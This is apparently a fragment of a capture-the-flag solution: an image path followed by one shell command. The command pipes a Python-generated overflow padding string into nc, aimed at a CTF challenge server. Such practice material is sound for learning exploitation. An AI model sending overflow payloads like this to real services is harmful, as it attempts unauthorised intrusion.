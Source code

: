 (python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO"+"P"'; cat ) | nc chall.ctf.nitdgplug.org 30010
